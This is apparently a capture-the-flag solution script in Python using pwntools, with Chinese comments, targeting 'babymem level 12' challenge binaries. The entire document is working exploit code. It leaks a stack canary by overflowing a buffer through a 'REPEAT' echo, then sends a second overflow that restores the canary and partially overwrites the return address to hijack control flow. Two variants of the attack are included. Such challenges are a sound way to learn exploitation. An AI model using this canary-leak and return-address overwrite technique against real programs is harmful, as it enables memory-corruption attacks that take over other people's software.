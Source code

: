 
```python
from pwn import *

elf = ELF("/challenge/babymem_level12.1")
p = process("/challenge/babymem_level12.1")
buffer_size = 0x68 + 1                      # 1 是为了填补canary最低位的0x00
p.sendline(f"{buffer_size}")
p.send(b'REPEAT' +  b'A' * (0x68 - 6 + 1))  # 6 是REPEAT所占的字节数
output = p.recvall()
print(output)
match = re.search(r'^(You said: REPEATA+.*?)$', output.decode('latin-1'), re.MULTILINE)
if match:
    line = match.group(1)
    cancary =  line.encode('latin-1')[0x68 + 1 + 10 : 0x68 + 1 + 7 + 10]
    hex_str = ''.join(f'{byte:02x}' for byte in cancary[::-1]) + "00"
    cancary_value = p64(int(hex_str, 16))
    print(cancary_value)
else:
    print("No matching line found")

buffer_size = 0x68 + 8 + 8 + 2
p.sendline(f"{buffer_size}")
p.send(b'A'* 0x68 + cancary_value + b'A' * 8 + b'\x6A' + b'\x1B')
p.interactive()
exit()



elf = ELF("/home/hacker/memory/level12/babymem_level12.0")
p = process("/home/hacker/memory/level12/babymem_level12.0")
buffer_size = 0x78 + 1
p.sendline(f"{buffer_size}")
p.send(b'REPEAT' +  b'A' * (0x78 - 6 + 1))
output = p.recvuntil(b'Backdoor triggered! Repeating challenge()')

match = re.search(r'^(You said: REPEATA+.*?)$', output.decode('latin-1'), re.MULTILINE)
if match:
    line = match.group(1)
    cancary =  line.encode('latin-1')[0x78 + 1 + 10 : 0x78+1+7 + 10]
    hex_str = ''.join(f'{byte:02x}' for byte in cancary[::-1]) + "00"
    cancary_value = p64(int(hex_str, 16))
else:
    print("No matching line found")

buffer_size = 0x78 + 8 + 8 + 2
p.sendline(f"{buffer_size}")
p.send(b'A'* 0x78 + cancary_value + b'A' * 8 + b'\x37' + b'\x24')
p.interactive()
exit()

```
